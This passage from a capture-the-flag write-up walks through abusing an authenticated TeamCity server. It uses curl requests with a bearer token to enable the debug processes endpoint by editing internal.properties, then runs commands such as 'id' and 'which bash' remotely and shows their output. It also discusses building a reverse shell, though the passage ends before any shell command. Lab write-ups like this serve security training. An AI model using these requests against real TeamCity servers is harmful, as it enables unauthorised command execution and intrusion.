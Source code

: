 

To enable debug mode, first this command to `/admin/admin.md`:



    oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/admin/dataDir.md?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true' -H "Authorization: Bearer $TOKEN"



Then this one to to refresh the server:



    oxdf@hacky$ curl 'http://teamcity.runner.htb/admin/admin.md?item=diagnostics&tab=dataDir&file=config/internal.properties' -H "Authorization: Bearer $TOKEN"
    ...[snip]...



#### Commands

Now I can run commands at the `/app/rest/debug/process` endpoint:



    oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=id' -H "Authorization: Bearer $TOKEN"
    StdOut:uid=1000(tcuser) gid=1000(tcuser) groups=1000(tcuser)

    StdErr: 
    Exit code: 0
    Time: 39ms



#### Shell

Getting a shell out of this in one shot proved very tricky. It is taking
a single binary as the `exePath` argument, and then one or more `params`
arguments. `bash` is on the box:



    oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=which&params=bash' -H "Authorization: Bearer $TOKEN"
    StdOut:/usr/bin/bash

    StdErr: 
    Exit code: 0
    Time: 27ms



But going directly to a Bash reverse shell proved too complex. `ping`
and `wget` are not on the box:



    oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=which&params=ping' -H "Authorization: Bearer $TOKEN"
    StdOut:
    StdErr: 
    Exit code: 1
    Time: 19ms
    oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=which&params=wget' -H "Authorization: Bearer $TOKEN"
    StdOut:
    StdErr: 
    Exit code: 1
    Time: 17ms
